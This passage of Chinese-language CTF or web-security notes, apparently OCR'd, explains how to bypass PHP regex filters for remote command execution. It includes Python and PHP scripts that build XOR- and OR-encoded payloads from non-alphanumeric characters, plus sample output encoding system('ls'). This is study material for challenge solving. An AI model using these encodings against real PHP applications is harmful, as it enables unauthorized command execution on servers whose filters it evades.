 ```python
            t = f.readline()
            if t == "":
                break
            if t[0] == i:
                # print(i)
                s1 += t[2:5]
                s2 += t[6:9]
                break
        f.close()
    output = '("' + s1 + '"^"' + s2 + '")'
    return output

while True:
    param = (
        action(input("\n[+] your function：")) + action(input("[+] your command：")) + ";"
    )
    print(param)
```

```sh
# 运行结果
[+] your function：system
[+] your command：ls
("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%0c%08"^"%60%7b");
```

### 或运算绕过

```php
<?php
// 生成或构造结果
/* author yu22x */

$myfile = fopen("or_rce.txt", "w");
$contents = "";
for ($i = 0; $i < 256; $i++) {
  for ($j = 0; $j < 256; $j++) {

    if ($i < 16) {
      $hex_i = '0' . dechex($i);
    } else {
      $hex_i = dechex($i);
    }
    if ($j < 16) {
      $hex_j = '0' . dechex($j);
    } else {
      $hex_j = dechex($j);
    }
    $preg = '/[0-9a-z]/i'; //根据题目给的正则表达式修改即可
    if (preg_match($preg, hex2bin($hex_i)) || preg_match($preg, hex2bin($hex_j))) {
      echo "";
    } else {
      $a = '%' . $hex_i;
      $b = '%' . $hex_j;
      $c = (urldecode($a) | urldecode($b));
      if (ord($c) >= 32 & ord($c) <= 126) {
        $contents = $contents . $c . " " . $a . " " . $b . "\n";
      }
    }

  }
}
fwrite($myfile, $contents);
fclose($myfile);
```